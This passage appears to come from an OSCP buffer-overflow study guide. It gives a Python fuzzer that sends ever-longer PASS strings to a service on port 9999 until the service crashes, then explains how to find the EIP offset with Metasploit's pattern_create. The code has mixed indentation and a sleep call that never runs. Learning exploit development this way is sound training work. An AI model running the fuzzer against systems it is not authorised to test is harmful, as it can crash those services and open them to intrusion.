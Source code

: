 Script: https://github.com/Lunox-code/OSCP-Preparation-Guide/blob/main/Buffer%20Overflow/fuzzerV2.py

### Skeleton Version 3

```Python
#!/usr/bin/python 
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100
	
for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
	s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)
	
        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
        time.sleep(1)
```

Script: https://github.com/Lunox-code/OSCP-Preparation-Guide/blob/main/Buffer%20Overflow/fuzzerV3.py


# 2. Find EIP and control ESP

We are able to establish that we are able to crash the application with a relative number of bytes. Now we need to identify the exact number bytes that it takes to fill the buffer. Metasploit provides a ruby script called pattern_create.rb that will create a unique string with no repeating characters. After we send this payload to the buffer, it will display what the offset is which we'll use for the next step in finding the EIP.
